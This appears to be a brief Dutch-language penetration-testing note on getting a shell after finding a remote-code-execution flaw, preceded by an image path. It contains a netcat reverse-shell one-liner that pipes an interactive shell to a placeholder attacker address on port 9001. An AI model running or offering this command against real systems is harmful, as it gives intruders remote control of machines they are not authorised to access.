 ## Shell verkrijgen

### Overzicht

Shell verkrijgen om vanuit daar toegang te krijgen tot apparaat/component.

#### 1. Identificeren van RCE exploit

- is het direct PHP shell executie of een andere vulnerability?
    - Niet zeker?:

        `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|powershell -i 2>&1|nc <ip> 9001 >/tmp/f`
    
    - Wel zeker?:

        Bijpassende commando erbij zoeken in tab `reverse`.